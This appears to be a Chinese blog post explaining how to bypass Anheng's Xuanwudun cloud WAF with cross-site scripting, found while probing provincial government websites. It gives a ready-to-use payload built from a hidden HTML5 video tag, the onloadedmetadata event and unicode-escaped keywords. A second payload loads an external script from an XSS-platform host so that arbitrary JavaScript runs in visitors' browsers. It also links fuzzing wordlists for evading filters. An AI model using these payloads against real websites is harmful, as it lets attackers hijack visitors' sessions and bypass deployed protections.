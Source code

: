 ```yaml
---
title: XSS bypass 安恒玄武盾
categories: WEB
tags:
  - XSS
  - bypass
abbrlink: 44024
date: 2019-06-10 16:28:05
---
```


## 起因

这个方法是去年实验室里的小伙伴发现的，而payload构造思路则来自[XSS挑战第一期Writeup](<http://www.anquan.us/static/drops/papers-894.html>)和[XSS挑战第二期Writeup](<http://www.anquan.us/static/drops/papers-938.html>).

主要是实验室有任务寻找省内政府网站漏洞,而浙江政府又与安恒有不少合作,很多网上都挂着安恒的玄武盾云WAF.

绕云waf简单的方式就是绕过cdn,找真实ip.绕cdn方法还是很多了,也有一些工具,比如我在[另一篇文章](<https://m09ic.top/posts/48529/>)收集的[fuckcdn](<https://github.com/Tai7sy/fuckcdn>)

有些时候绕不过去cdn,又存在xss漏洞.报告里要是不能验证漏洞就等于没有漏洞,那就只能硬怼玄武盾了.

漏洞已报告给安恒,但超过两个月没得到回复,那就当做厂商不承认该漏洞.

## 细节

### 1

最近手里没网站测试了,很多东西只能靠口诉了.

先上最终payload吧,payload不唯一,可以有无限多种变形.

```
6666666"> <video hidden="hidden" onloadedmetadata="\u006aava\u0073cript:[1].find(\u0061lert)" src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>
```

大佬们应该一眼就看出来问题了.

发现是在去年,用了一段时间完成实验室任务,最晚在今年4月份测试依旧有效..

这是玄武盾拦截的截图:

![1](1.png)

如果payload中存在`onerror=,onload=`这些事件,`<img>,<script>`这些标签或者`alert,javascript`这些敏感词,就会弹出玄武盾.

本想fuzz一下具体过滤了哪些关键字的,但是手头没有合适的网站测试,就作罢.关键字过滤的还是挺全的,除了html5的新标签和新事件.

直接fuzz一下就可以发现,比如`<video>,<canvas`这些html5标签不会触发玄武盾.

html5标签还挺多的,如果找不到可以用我收集的[字典](<https://github.com/M09Ic/mywordlist/blob/master/html_tags.txt>).

最容易容易构造xss的标签有`video`,html5标签实现xss网上相关文章有不少.

既然html5标签都没过滤,那么html5的事件99%也不会过滤.直接fuzz全部html事件.[字段在这](<https://github.com/M09Ic/mywordlist/blob/master/html_event.txt>)

很快就找到了比如:`onloadedmetadata`,可以不需要额外的交互,打开网站即可触发.当视频加载时触发.

记得把video标签加上hidden属性.不然动静太大了.

当然不仅仅`video`标签的`onloadedmetadata`事件可用,随便组合一下就有很多其他的方法.

### 2

虽然绕过了关键字检测,但是如果直接用`javascript=alert()`还是会触发玄武盾.

这里就需要一个2014年乌云大佬们演示过的方法了.

通过数组实例的`find()`方法,用于找出第一个符合条件的数组成员.

`find()`的参数是一个回调函数.验证漏洞用`alert`即可.

当然`alert`关键字已经被过滤了,但是这里输入点是在js代码里面,浏览器遇到js代码会调用js解释器,所以将`alert` js编码为`\u0061lert`.稍微降低下payload长度,所以只编码一个字符就可以了.

最终事件内payload为:

`find(\u0061lert)`

### 3

发送payload:

![2](2.png)

成功执行,绕过玄武盾.

当然不能仅仅是弹窗,完整的执行任意js代码的payload类似:

```
[1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'})
```

在最开头的两篇文章中偷来的,手动滑稽.

中间如果有被过滤的关键字,js编码下即可.









